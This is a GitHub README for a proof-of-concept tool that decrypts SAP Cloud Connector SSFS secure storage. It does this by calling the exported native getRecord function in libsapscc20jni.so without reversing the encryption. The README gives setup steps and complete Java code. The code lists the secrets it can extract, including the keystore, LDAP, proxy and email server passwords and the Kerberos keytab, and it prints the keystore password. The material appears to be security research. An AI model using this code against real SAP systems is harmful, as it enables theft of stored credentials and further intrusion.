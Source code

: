 # SAP_Cloud_Connector_SSFS_Decryption
This repository offers a Proof of Concept (PoC) for decrypting SAP Cloud Connector SSFS. The core feature of this PoC is the exploitation of an exported function - getRecord, present in the libsapscc20jni.so file. The advantage is that you can decrypt the SSFS properties values WITHOUT REVERSING THE ECRYPTION ALGORITHM.

![image](https://github.com/redrays-io/SAP_Cloud_Connector_SSFS_Decryption/assets/7976421/58d49443-f87e-46cf-a1bf-e8d9799e9e88)

To begin, you are required to download the SSFS file from the SAP Server to your personal device. As an instance, in my case, the SSFS was stored at this location on my laptop: /home/vah13/research/SSFS_SCC.DAT.
Before initiating the decryption process, it is necessary to define two parameters in the environment:

* The SAP System ID (SID). Set it with this command: export SAPSYSTEMNAME=SCC.
* The pathway to SSFS excluding the complete filename. Set it with this command: export RSEC_SSFS_DATAPATH=/home/vah13/research/SSFS.

It's important to utilize the libsapscc20jni.so library.
You can now compile and run the following code to decrypt the SSFS:
```java
package com.sap.scc.jni;  // the package must be com.sap.scc.jni

import java.io.IOException;
import java.util.Properties;

public class SecStoreAccess { // the class name must be SecStoreAccess
  
  static synchronized native char[] getRecord(final String p0) throws SecStoreAccessException, IllegalArgumentException;
  
  public static void main(String[] args) throws IOException {
    if (args.length > 1 )
    {
      System.out.print("java -jar decode.jar");
    }
    
    System.load("/usr/lib/libsapscc20jni.so");
    try
    {
      /* 
      available parameters for getRecord function
      
      "CLOUD_CONN/JAVA_KEYSTORE_PASSWORD";
      "CLOUD_CONN/SCIM_SERVICE_USER_PASSWD";
      "CLOUD_CONN/LDAP_SERVICE_USER_PASSWORD";
      "CLOUD_CONN/PROXY_PASSWORD";
      "CLOUD_CONN/KERBEROS_KTAB";
      "CLOUD_CONN/SYSTEM_CERTIFICATE";
      "CLOUD_CONN/ALERT_EMAIL_SERVER_SECRET";
      */      
      char[] result = getRecord("CLOUD_CONN/JAVA_KEYSTORE_PASSWORD");
      System.out.println(new String(result));
    
      }catch (Exception e)
    {
      e.printStackTrace();
    }
  }

}
```
![image](https://user-images.githubusercontent.com/7976421/202764294-14d66338-b94f-4825-8fec-cb673f46e15c.png)
